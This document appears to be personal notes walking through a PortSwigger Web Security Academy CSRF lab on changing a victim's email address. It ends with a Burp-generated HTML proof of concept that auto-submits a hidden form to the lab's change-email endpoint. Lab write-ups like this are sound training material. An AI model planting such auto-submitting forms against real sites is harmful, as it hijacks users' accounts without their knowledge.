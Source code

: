***
This lab's email change functionality is vulnerable to CSRF.
To solve the lab, craft some HTML that uses a [CSRF attack](https://portswigger.net/web-security/csrf) to change the viewer's email address and upload it to your exploit server.
You can log in to your own account using the following credentials: `wiener:peter`
***
## when we login:
we see a change email functionality:
![[walkthroughs/Portswigger/CSRF/IMg/Pasted image 20230817161412.png]]
When tried on diff browser without logging: login page was triggered
this was the request:
![[walkthroughs/Portswigger/CSRF/IMg/Pasted image 20230817161628.png]]
our email was changed , can we recreate the request and change someone else's account email?
but we can't -> since it's using cookies to authenticate
We can't get user's cookie , but what if user sends this request by itself?
# There is only one option left:
make user click on the link so that the request gives it's own cookie of that user to the server and the email is changed

***flow:
login -> cookie assign -> email change on the basis of cookie-> if cookie == valid : change email -> end
else: deny***

When we make a request form that when loaded creates the same request and sends it to the server , thus when someone clicks or visits the link , his/hers email is changed automatically
```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a6c00cb0376ba5781476cdd00c60035.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="attacker&#64;attacker&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```
![[walkthroughs/Portswigger/CSRF/IMg/Pasted image 20230817162714.png]]
